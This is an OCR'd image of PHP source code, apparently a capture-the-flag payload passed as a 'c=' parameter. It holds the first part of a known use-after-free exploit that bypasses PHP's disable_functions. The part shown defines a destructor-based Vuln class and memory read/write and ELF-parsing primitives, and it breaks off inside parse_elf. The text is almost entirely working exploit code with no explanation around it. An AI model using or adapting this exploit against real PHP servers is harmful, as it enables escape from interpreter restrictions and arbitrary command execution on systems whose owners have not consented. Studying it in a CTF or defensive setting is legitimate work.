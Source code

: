```
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }
    
    class Helper {
        public $a, $b, $c, $d;
    }
    
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
    
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }
    
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }
    
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
    
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
    
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
    
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
```